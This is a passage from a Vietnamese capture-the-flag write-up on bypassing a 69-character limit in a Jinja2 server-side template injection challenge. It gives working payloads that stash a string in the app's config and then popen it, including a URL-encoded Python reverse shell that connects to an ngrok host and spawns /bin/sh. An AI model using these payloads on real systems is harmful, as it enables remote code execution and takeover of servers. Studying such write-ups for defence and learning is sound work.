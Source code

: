 ```python
      return "Not allowed."
    if len(txt) <= 69:
      return render_template_string(txt)
    else:
      return "Too long."
  return Response(open(__file__).read(), mimetype='text/plain')

app.run('0.0.0.0', 1337)
```

Ban đầu mình cũng cố gắng chắp vá payload bằng những cách thường dùng như dùng `attr|` `dict` nhưng độ dài là rất ít (<= 69).

Sau một hồi thì mình có tham khảo được trang [này](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/)

Đại khái ý tưởng ở đây sẽ là chèn một chuỗi với độ dài tuỳ thích vào một biến nào đó trong file `config`, sau đó ta sẽ `popen` tới nó để sử dụng. Mình test thử nhé. Đầu tiên ta sẽ lưu chuỗi như ý muốn vào `config.a`

Ban đầu mình thử với payload sau nhưng không được

```
?txt={%set t=config.update(a=request.args('a')))%}&a=this is a test mtiennnnn
```

Mình không hiểu tại sao payload này lại không work :) (có ai biết chỉ mình với nha), sau đó mình cho hẳn cái `request.args` thành một biến khác thì lại work.

```python
{%set o=request.args%}{%set b=config.update(a=o.t)%}&t=this is a test mtiennnnn
```

Đọc thử `config.a` thì đã thấy chuỗi mình nhập

![image](https://user-images.githubusercontent.com/75429369/179645383-e56b8dfc-e37a-4b05-a2f1-d91fdebfe75f.png)

Vậy là đạt được mục đích rồi, giờ chỉ cần set up reverse shell nữa là xong

```python
{%set%20o=request.args%}{%set%20b=config.update(a=o.t)%}&t=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28"0.tcp.ap.ngrok.io"%2C14474%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B"%2Fbin%2Fsh"%2C"-i"%5D%29%3B%27
```

Check lại `config.a` lần nữa cho chắc

![image](https://user-images.githubusercontent.com/75429369/179646144-de31d54a-441f-4893-baec-304beed007ee.png)

Oke popen nó là ta có thể rce được rồi

```python
{%set o=request.args%}{%set b=(lipsum|attr(o.t)).os.popen(config.a)%}&t=__globals__
```

![image](https://user-images.githubusercontent.com/75429369/179646491-6aa503cd-b5ea-49ab-b92c-572f3a32baab.png)
